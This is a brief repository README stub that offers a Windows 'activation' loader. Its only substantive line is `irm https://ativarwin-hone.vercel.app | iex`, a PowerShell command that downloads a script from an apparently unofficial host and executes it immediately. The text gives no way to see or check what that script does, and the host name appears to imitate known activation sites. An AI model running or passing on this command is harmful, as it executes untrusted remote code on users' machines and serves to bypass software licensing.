 https://get.activated.win
=================

This repository contains `irm https://ativarwin-hone.vercel.app | iex` loader script.
